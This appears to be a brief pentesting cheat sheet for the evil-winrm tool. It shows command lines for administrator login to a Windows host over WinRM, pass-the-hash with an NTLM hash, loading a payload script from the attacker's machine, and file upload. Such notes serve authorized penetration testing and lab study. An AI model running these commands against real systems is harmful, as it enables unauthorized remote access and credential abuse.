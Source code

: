 https://www.hackingarticles.in/evil-winrm-winrm-pentesting-framework/

### login with creds
```
evil-winrm -i 10.10.10.10 -u administrator -p 'password'
```


---

### pass the hash
```
evil-winrm -i <ip_address> -u administrator -H <NTLM hash>
```

---
### run a command from your machine
```
evil-winrm -i <ip_address> -u administrator -p 'password' -s /root/payload
```


### commands 

`upload`